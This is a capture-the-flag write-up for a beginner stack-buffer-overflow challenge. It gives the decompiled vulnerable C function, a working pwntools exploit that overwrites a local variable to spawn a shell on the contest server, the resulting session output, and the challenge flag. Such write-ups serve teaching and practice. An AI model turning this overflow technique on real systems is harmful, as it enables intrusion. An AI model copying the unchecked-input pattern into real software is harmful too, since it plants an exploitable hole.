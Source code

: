 # stackoverflow

## Challenge Description
`Welcome to Stack Overflow! Get answers to all your programming questions right here!`

## Solution
> TLDR: Spray 40 random characters to fill up the local array and provide 0x69637466 to modify the value of the local variable.

Ghidra's decompiled main() function:
``` c
undefined8 main(void)
{
  undefined local_38 [40];
  long local_10;
  
  local_10 = 0x42424242;
  setvbuf(stdout,(char *)0x0,2,0);
  setvbuf(stdin,(char *)0x0,2,0);
  puts(
      "Welcome to StackOverflow! Before you start ~~copypasting code~~ asking good questions, we would like you to answer a question. What\'s your favorite color?"
      );
  __isoc99_scanf(&DAT_001009a3,local_38);
  puts("Thanks! Now onto the posts!");
  if (local_10 == 0x69637466) {
    puts("DEBUG MODE ACTIVATED.");
    system("/bin/sh");
  }
  else {
    puts("ERROR: FEATURE NOT IMPLEMENTED YET");
  }
  return 0;
}
```

To spawn a shell, I need to modify the value of "local_10" variable to 0x69637466.

Idea: Spray 40 random characters to fill up the “local_38” array and then provide 0x69637466 to modify the value of the "local_10" variable.

Working POC:
``` python
from pwn import *

addr = p64(0x69637466)
payload = ("A"*40).encode() + addr + ("A"*8).encode()
r = remote('chal.imaginaryctf.org', 42001)
r.recvuntil(b'favorite color?\n')
r.sendline(payload)
r.interactive()
```

Output of the POC:
``` bash
$ python3 stackoverflow.py
[+] Opening connection to chal.imaginaryctf.org on port 42001: Done
[*] Switching to interactive mode
Thanks! Now onto the posts!
DEBUG MODE ACTIVATED.
$ ls
flag.txt
run
$ cat flag.txt
ictf{4nd_th4t_1s_why_y0u_ch3ck_1nput_l3ngth5_486b39aa}
```

Flag: `ictf{4nd_th4t_1s_why_y0u_ch3ck_1nput_l3ngth5_486b39aa}`